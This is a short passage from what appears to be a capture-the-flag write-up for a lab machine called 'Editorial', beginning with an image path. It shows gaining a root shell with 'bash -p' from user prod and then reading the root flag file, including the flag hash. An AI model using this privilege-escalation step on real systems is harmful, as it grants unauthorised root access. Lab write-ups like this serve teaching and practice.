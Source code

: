 ```shell
prod@editorial:~$ bash -p
bash-5.1# whoami
root
```

## Post Exploitation

Get the flag:

```shell
bash-5.1# cat /root/root.txt
8163e03aff595a294efd3116d4019ad5
```
